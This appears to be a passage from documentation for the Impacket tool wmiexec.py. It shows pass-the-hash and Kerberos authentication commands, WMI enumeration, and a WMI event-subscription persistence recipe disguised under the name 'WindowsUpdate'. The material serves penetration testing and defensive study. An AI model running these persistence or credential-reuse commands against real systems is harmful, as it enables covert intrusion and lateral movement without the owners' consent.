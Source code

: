 ### Authentication Problems
```bash
# Verify credentials work with other tools
python3 smbclient.py domain.com/user:password@target.domain.com

# Test with different authentication methods
python3 wmiexec.py -hashes :hash user@target.domain.com
python3 wmiexec.py -k domain.com/user@target.domain.com
```

## Advanced WMI Techniques

### WMI Persistence
```cmd
# Create WMI event subscription for persistence
wmic /namespace:\\root\subscription PATH __EventFilter CREATE Name="WindowsUpdate", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfRawData_PerfOS_System'"

# Create consumer
wmic /namespace:\\root\subscription PATH CommandLineEventConsumer CREATE Name="WindowsUpdate", CommandLineTemplate="powershell.exe -Command ..."

# Bind filter to consumer
wmic /namespace:\\root\subscription PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"WindowsUpdate\"", Consumer="CommandLineEventConsumer.Name=\"WindowsUpdate\""
```

### WMI Information Gathering
```cmd
# Enumerate WMI classes
wmic class list brief
wmic class Win32_Service list brief
wmic class Win32_Process list brief

# Query specific information
wmic computersystem get model,manufacturer
wmic bios get serialnumber
wmic logicaldisk get size,freespace,caption
```

## Related Tools
- [psexec.py](psexec.md) - SMB-based remote execution
- [smbexec.py](smbexec.md) - Alternative SMB execution method
- [dcomexec.py](dcomexec.md) - DCOM-based execution
- [secretsdump.py](secretsdump.md) - Credential extraction
- [atexec.py](atexec.md) - Scheduled task execution
- [wmiquery.py](wmiquery.md) - WMI query execution
